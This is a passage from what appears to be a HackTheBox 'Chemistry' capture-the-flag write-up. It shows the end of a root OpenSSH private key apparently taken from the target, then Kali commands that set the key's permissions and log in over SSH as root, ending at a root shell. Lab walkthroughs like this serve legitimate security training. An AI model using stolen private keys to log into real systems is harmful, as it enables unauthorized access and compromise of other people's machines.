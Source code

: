 ```c
XpfF5LCPip69nDbDRbF22stGpSJ5mkRXUjvXh1J1R1HQ5pns38TGpPv9Pidom2QTpjdiev
dUmez+ByylZZd2p7wdS7pzexzG0SkmlleZRMVjobauYmCZLIT3coK4g9YGlBHkc0Ck6mBU
HvwJLAaodQ9Ts9m8i4yrwltLwVI/l+TtaVi3qBDf4ZtIdMKZU3hex+MlEG74f4j5BlUQAA
AMB6voaH6wysSWeG55LhaBSpnlZrOq7RiGbGIe0qFg+1S2JfesHGcBTAr6J4PLzfFXfijz
syGiF0HQDvl+gYVCHwOkTEjvGV2pSkhFEjgQXizB9EXXWsG1xZ3QzVq95HmKXSJoiw2b+E
9F6ERvw84P6Opf5X5fky87eMcOpzrRgLXeCCz0geeqSa/tZU0xyM1JM/eGjP4DNbGTpGv4
PT9QDq+ykeDuqLZkFhgMped056cNwOdNmpkWRIck9ybJMvEA8AAADBAOlEI0l2rKDuUXMt
XW1S6DnV8OFwMHlf6kcjVFQXmwpFeLTtp0OtbIeo7h7axzzcRC1X/J/N+j7p0JTN6FjpI6
yFFpg+LxkZv2FkqKBH0ntky8F/UprfY2B9rxYGfbblS7yU6xoFC2VjUH8ZcP5+blXcBOhF
hiv6BSogWZ7QNAyD7OhWhOcPNBfk3YFvbg6hawQH2c0pBTWtIWTTUBtOpdta0hU4SZ6uvj
71odqvPNiX+2Hc/k/aqTR8xRMHhwPxxwAAAMEAwYZp7+2BqjA21NrrTXvGCq8N8ZZsbc3Z
2vrhTfqruw6TjUvC/t6FEs3H6Zw4npl+It13kfc6WkGVhsTaAJj/lZSLtN42PXBXwzThjH
giZfQtMfGAqJkPIUbp2QKKY/y6MENIk5pwo2KfJYI/pH0zM9l94eRYyqGHdbWj4GPD8NRK
OlOfMO4xkLwj4rPIcqbGzi0Ant/O+V7NRN/mtx7xDL7oBwhpRDE1Bn4ILcsneX5YH/XoBh
1arrDbm+uzE+QNAAAADnJvb3RAY2hlbWlzdHJ5AQIDBA==
-----END OPENSSH PRIVATE KEY-----
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Chemistry/files]
└─$ chmod 600 root_id_rsa
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Chemistry/files]
└─$ ssh -i root_id_rsa root@10.129.160.79
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 20 Oct 2024 09:59:24 AM UTC

  System load:           0.01
  Usage of /:            72.8% of 5.08GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             235
  Users logged in:       1
  IPv4 address for eth0: 10.129.160.79
  IPv6 address for eth0: dead:beef::250:56ff:fe94:c8e1

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

9 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Oct 11 14:06:59 2024
root@chemistry:~# 
```
